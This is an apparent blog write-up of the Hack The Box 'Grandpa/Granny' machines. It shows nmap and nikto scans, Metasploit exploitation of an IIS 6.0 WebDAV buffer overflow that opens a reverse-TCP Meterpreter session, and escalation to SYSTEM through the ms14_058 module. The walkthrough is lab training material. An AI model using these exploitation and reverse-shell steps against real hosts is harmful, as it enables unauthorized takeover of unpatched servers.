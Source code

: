```yaml
---
layout: post
title: Grandpa/Granny (HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.14/15 

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.15</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-02-22 18:56 EST
<br>Nmap scan report for 10.10.10.15
<br>Host is up (0.17s latency).
<br>Not shown: 999 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Microsoft IIS httpd 6.0</font>
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
<br>|_http-server-header: Microsoft-IIS/6.0
<br>|_http-title: Under Construction
<br>| <font color="ffff00">http-webdav-scan</font>: 
<br>|   Server Type: Microsoft-IIS/6.0
<br>|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
<br>|   <font color="ffff00">WebDAV type</font>: Unkown
<br>|   Server Date: Thu, 22 Feb 2018 23:53:57 GMT
<br>|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose
<br>Running (JUST GUESSING): Microsoft Windows 2003|XP|2008 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_xp::sp2 <br>cpe:/o:microsoft:windows_server_2008::sp2
<br>Aggressive OS guesses: Microsoft Windows Server 2003 SP1 - SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows XP <br>SP2 or Windows Server 2003 SP2 (91%), Microsoft Windows Server 2003 R2 SP2 (88%), Microsoft Windows Server 2003 SP1 or R2 (88%), <br>Microsoft Windows 2003 SP2 (86%), Microsoft Windows Server 2003 SP1 or SP2 (86%), Microsoft Windows XP SP2 (86%), Microsoft Windows <br>2003 R2 (86%), Microsoft Windows Server 2003 (86%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   170.45 ms 10.10.14.1
<br>2   170.49 ms 10.10.10.15</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 38.06 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>Only port open is open and the web server is IIS httpd 6.0 and webdav is also available in which put method is allowed, and the webpage is also not available.

**Nikto**
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nikto -h 10.10.10.15
<br>- Nikto v2.1.6
<br>---------------------------------------------------------------------------
<br>+ Target IP:          10.10.10.15
<br>+ Target Hostname:    10.10.10.15
<br>+ Target Port:        80
<br>+ Start Time:         2018-02-22 19:01:01 (GMT-5)
<br>---------------------------------------------------------------------------
<br>+ Server: Microsoft-IIS/6.0
<br>+ Retrieved microsoftofficewebserver header: 5.0_Pub
<br>+ Retrieved x-powered-by header: ASP.NET
<br>+ The anti-clickjacking X-Frame-Options header is not present.
<br>+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
<br>+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
<br>+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
<br>+ Retrieved x-aspnet-version header: 1.1.4322
<br>+ No CGI Directories found (use '-C all' to force check all possible dirs)
<br>+ OSVDB-397: HTTP method <font color="ffff00">'PUT'</font> allows clients to save files on the web server.
<br>+ OSVDB-5646: HTTP method 'DELETE' allows clients to delete files on the web server.
<br>+ Retrieved dasl header: <font color="ffff00"> DAV:sql </font>
<br>+ Retrieved dav header: 1, 2
<br>+ Retrieved ms-author-via header: MS-FP/4.0,DAV
<br>+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
<br>+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
<br>+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
<br>+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
<br>+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
<br>+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
<br>+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
<br>+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
<br>+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
<br>+ WebDAV enabled (UNLOCK PROPPATCH COPY LOCK PROPFIND MKCOL SEARCH listed as allowed)
<br>+ OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: http://granny/_vti_bin/_vti_aut/author.dll
<br>+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
<br>+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
<br>+ OSVDB-3233: /_vti_bin/shtml.exe/_vti_rpc: FrontPage may be installed.
<br>+ OSVDB-3233: /_private/: FrontPage directory found.
<br>+ OSVDB-3233: /_vti_bin/: FrontPage directory found.
<br>+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
<br>+ OSVDB-3300: /_vti_bin/: shtml.exe/shtml.dll is available remotely. Some versions of the Front Page ISAPI filter are vulnerable to a DOS (not attempted).
<br>+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
<br>+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST</p>
</div>
</font>

<br>If you google about IIS 6.0 webdav you can find a BOF [exploit](https://www.exploit-db.com/exploits/41738/), and there is a msf module also available for this similar exploit which we are going to use.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
<br>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > show options </p>

<p>Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):</p>

<p>&nbsp;&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Current&nbsp;Setting&nbsp;&nbsp;Required&nbsp;&nbsp;Description
<br>&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---------------&nbsp;&nbsp;--------&nbsp;&nbsp;-----------
<br>&nbsp;&nbsp;&nbsp;MAXPATHLENGTH&nbsp;&nbsp;60&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;End of physical path brute force
<br>&nbsp;&nbsp;&nbsp;MINPATHLENGTH&nbsp;&nbsp;3&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Start of physical path brute force
<br>&nbsp;&nbsp;&nbsp;Proxies&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;A proxy chain of format type:host:port[,type:host:port][...]
<br>&nbsp;&nbsp;&nbsp;RHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The target address
<br>&nbsp;&nbsp;&nbsp;RPORT&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;80&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The target port (TCP)
<br>&nbsp;&nbsp;&nbsp;SSL&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;false&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Negotiate SSL/TLS for outgoing connections
<br>&nbsp;&nbsp;&nbsp;TARGETURI&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;/&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path of IIS 6 web application
<br>&nbsp;&nbsp;&nbsp;VHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;HTTP server virtual host</p>


<p>Exploit target:</p>

<p>&nbsp;&nbsp;&nbsp;Id&nbsp;&nbsp;Name
<br>&nbsp;&nbsp;&nbsp;--&nbsp;&nbsp;----
<br>&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;Microsoft Windows Server 2003 R2 SP2 x86</p>


<p>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > set RHOST 10.10.10.15
<br>RHOST => 10.10.10.15
<br>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4444 
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.15
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4444 -> 10.10.10.15:1031) at 2018-02-22 19:23:56 -0500</p>

<p>meterpreter > getuid
<br><font color="red">[-]</font> stdapi_sys_config_getuid: Operation failed: Access is denied.
<br>meterpreter > sysinfo
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;GRANNY
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;Windows .NET Server (Build 3790, Service Pack 2).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;x86
<br>System Language&nbsp;:&nbsp;en_US
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;HTB
<br>Logged On Users&nbsp;:&nbsp;3
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;x86/windows
<br>meterpreter > </p>
</div>
</font>

<br>We got the session but our sehll has very low privilege not even a user privilege, So first we need to migrate to a process which have some decent privilege and then try to find an exploit using local exploit suggester to escalate our privilege to gain system or administrator level access.

**Privilege Escalation**

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>meterpreter > ps</p>

<p>Process List
<br>============</p>

<p>&nbsp;PID&nbsp;&nbsp;&nbsp;PPID&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Arch&nbsp;&nbsp;Session&nbsp;&nbsp;User&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path
<br>&nbsp;---&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;-------&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----
<br>&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[System Process]                                               
<br>&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;System                                                         
<br>&nbsp;260&nbsp;&nbsp;&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;smss.exe                                                       
<br>&nbsp;316&nbsp;&nbsp;&nbsp;260&nbsp;&nbsp;&nbsp;csrss.exe                                                      
<br>&nbsp;340&nbsp;&nbsp;&nbsp;260&nbsp;&nbsp;&nbsp;winlogon.exe                                                   
<br>&nbsp;388&nbsp;&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;services.exe                                                   
<br>&nbsp;400&nbsp;&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;lsass.exe                                                      
<br>&nbsp;568&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;668&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;704&nbsp;&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;728&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;756&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;792&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;928&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;spoolsv.exe                                                    
<br>&nbsp;952&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;msdtc.exe                                                      
<br>&nbsp;1068&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;cisvc.exe                                                      
<br>&nbsp;1112&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1160&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;inetinfo.exe                                                   
<br>&nbsp;1208&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1440&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1572&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1668&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;alg.exe                                                        
<br>&nbsp;1772&nbsp;&nbsp;568&nbsp;&nbsp;&nbsp;wmiprvse.exe                                                   
<br>&nbsp;1932&nbsp;&nbsp;568&nbsp;&nbsp;&nbsp;davcdata.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NT AUTHORITY\NETWORK SERVICE&nbsp;&nbsp;C:\WINDOWS\system32\inetsrv\davcdata.exe
<br>&nbsp;2092&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;2124&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;2204&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;logon.scr                                                      
<br>&nbsp;3080&nbsp;&nbsp;1440&nbsp;&nbsp;w3wp.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NT AUTHORITY\NETWORK SERVICE&nbsp;&nbsp;c:\windows\system32\inetsrv\w3wp.exe
<br>&nbsp;3172&nbsp;&nbsp;3080&nbsp;&nbsp;rundll32.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\WINDOWS\system32\rundll32.exe</p>

<p>meterpreter > migrate 1932
<br><font color="RoyalBlue">[*]</font> Migrating from 3172 to 1932...
<br><font color="RoyalBlue">[*]</font> Migration completed successfully.
<br>meterpreter > getuid 
<br>Server username: NT AUTHORITY\NETWORK SERVICE
<br>meterpreter > </p>
</div>
</font>

<br>And we successfully migrated to NETWORK SERVICE and now we can run the local exploit suggester.

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>meterpreter > background 
<br><font color="RoyalBlue">[*]</font> Backgrounding session 1...
<br>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > use post/multi/recon/local_exploit_suggester \r
<br>msf post(<font color="red">local_exploit_suggester</font>) > set SESSION 1
<br>SESSION => 1
<br>msf post(<font color="red">local_exploit_suggester</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> 10.10.10.15 - Collecting local exploits for x86/windows...
<br><font color="RoyalBlue">[*]</font> 10.10.10.15 - 37 exploit checks are being tried...
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
<br><font color="RoyalBlue">[*]</font> Post module execution completed
<br>msf post(<font color="red">local_exploit_suggester</font>) ></p>
</div>
</font>

<br>In Suggestion we got couple of exploits which we can use, lets try with the **ms14_058_track_popup_menu**

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf post(<font color="red">local_exploit_suggester</font>) > use exploit/windows/local/ms14_058_track_popup_menu 
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > show options </p>

<p>Module options (exploit/windows/local/ms14_058_track_popup_menu):</p>

<p>&nbsp;&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Current&nbsp;Setting&nbsp;&nbsp;Required&nbsp;&nbsp;Description
<br>&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---------------&nbsp;&nbsp;--------&nbsp;&nbsp;-----------
<br>&nbsp;&nbsp;&nbsp;SESSION&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The session to run this module on.</p>


<p>Exploit target:</p>

<p>&nbsp;&nbsp;&nbsp;Id&nbsp;&nbsp;Name
<br>&nbsp;&nbsp;&nbsp;--&nbsp;&nbsp;----
<br>&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;Windows x86</p>


<p>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > set SESSION 1
<br>SESSION => 1
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > set LPORT 444
<br>LPORT => 444
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:444 
<br><font color="RoyalBlue">[*]</font> Launching notepad to host the exploit...
<br><font color="53E100">[+]</font> Process 912 launched.
<br><font color="RoyalBlue">[*]</font> Reflectively injecting the exploit DLL into 912...
<br><font color="RoyalBlue">[*]</font> Injecting exploit into 912...
<br><font color="RoyalBlue">[*]</font> Exploit injected. Injecting payload into 912...
<br><font color="RoyalBlue">[*]</font> Payload injected. Executing exploit...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.15
<br><font color="53E100">[+]</font> Exploit finished, wait for (hopefully privileged) payload execution to complete.
<br><font color="RoyalBlue">[*]</font> Meterpreter session 2 opened (10.10.*.*:444 -> 10.10.10.15:1031) at 2018-02-22 20:21:02 -0500</p>

<p>meterpreter > getuid 
<br>Server username: NT AUTHORITY\SYSTEM
<br>meterpreter > shell
<br>Process 1660 created.
<br>Channel 1 created.
<br>Microsoft Windows [Version 5.2.3790]
<br>(C) Copyright 1985-2003 Microsoft Corp.</p>

<p>c:\windows\system32\inetsrv>
<br>..
<br>..
<br>C:\Documents and Settings\Lakis\Desktop>type user.txt
<br>type user.txt
<br><font color="53E100">********************************</font>
<br>C:\Documents and Settings\Lakis\Desktop>
<br>..
<br>..
<br>C:\Documents and Settings\Administrator\Desktop>type root.txt
<br>type root.txt
<br><font color="53E100">********************************</font>
<br>C:\Documents and Settings\Administrator\Desktop></p>

</div>
</font>

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<p class="message">
  <script src="https://www.hackthebox.eu/badge/966"> </script>
</p>
